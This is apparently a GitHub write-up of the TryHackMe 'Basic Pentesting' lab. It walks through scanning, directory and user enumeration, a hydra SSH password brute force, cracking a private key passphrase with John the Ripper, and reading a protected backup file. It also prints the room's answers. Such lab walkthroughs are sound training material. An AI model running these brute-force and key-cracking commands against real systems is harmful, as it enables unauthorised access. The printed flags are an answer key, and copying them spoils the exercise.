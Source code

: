 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

> This is a machine that allows you to practise web app hacking and privilege escalation

## Scanning

scan the machine

```
nmap -A -T4 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201595571-66955a77-92c2-4595-8b18-7bc2fb6a639b.png)

There are 6 open and 6 filterd ports (total 12) to discover

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/201596415-920d1fe7-db23-45b1-9e5b-cfcdd09538f4.png)

nothing here

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.3.159/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/201596771-7e2d4256-9eaa-48ac-add1-3bfcdc486e68.png)

we find an endpoint at /development

![image](https://user-images.githubusercontent.com/90561566/201596974-894f4168-30ad-44b6-8d77-d9ef6ccbbffc.png)

j.txt

![image](https://user-images.githubusercontent.com/90561566/201597065-11314392-492f-444f-aa6d-8551acf64d46.png)

dev.txt

![image](https://user-images.githubusercontent.com/90561566/201597215-b8a10c73-6708-487a-b95e-4bc690a7008e.png)

hmm, we will use enum4linux to enumerate users 

```
enum4linux -a 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201598898-fb5ba835-85af-45d9-92e4-bc10a91601ef.png)

we can see 2 users are `kay` and `jan` aka K & J in the previous task

## Exploitation

now we use hydra to brute force the password

we have the information about the open ports and SSH is a great candidate

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.159
```

wait about 8 mins, there is your password

![image](https://user-images.githubusercontent.com/90561566/201611043-e714f25a-370c-4d0b-966f-51303e662e56.png)

now we can ssh into the server

```
ssh jan@10.10.154.165
```

![image](https://user-images.githubusercontent.com/90561566/201611517-7825cde1-9a90-46a2-b343-2ee76f29dc19.png)

## Privilege Escalation

let's find something around, i see a lot of awesome files in kay folder

![image](https://user-images.githubusercontent.com/90561566/201612657-60cac56f-ed34-4226-b8ce-cbac5069f5e5.png)

we cannot read pass.bak at the moment

but we can crack ssh key

![image](https://user-images.githubusercontent.com/90561566/201613947-e61ae35c-48d6-4ef2-af09-7ccc4128a04d.png)

unfortulately, it requires a passphrase

but we can cat out this file and crack the key with JohnTheRipper by [ssh2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

first clone id_rsa to our machine and 

```
python3 ssh2john.py id_rsa > id_rsa.txt
```

crack the passphrase

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```

![image](https://user-images.githubusercontent.com/90561566/201619172-4071e65c-9f6d-4909-84fa-026919c3a6ab.png)

passphrase is `beeswax`

now ssh to kay account

```
ssh -i id_rsa kay@localhost
```

![image](https://user-images.githubusercontent.com/90561566/201619950-1ab5730f-dc67-474b-9627-08361afd23e3.png)

```
cat pass.bak
```

| Flag | pass.bak |
| --- | --- |
| Answer | heresareallystrongpasswordthatfollowsthepasswordpolicy$$ |

## Bonus

if you still want to root, check out

```
sudo -l -l
```

![image](https://user-images.githubusercontent.com/90561566/201621033-46f14051-62cd-4016-a23c-febf577f24ad.png)

it say that we can run every command with sudoer

![image](https://user-images.githubusercontent.com/90561566/201621302-854f7c4c-a0f9-4b75-bf9a-d829e9fdb266.png)

Got it! End point
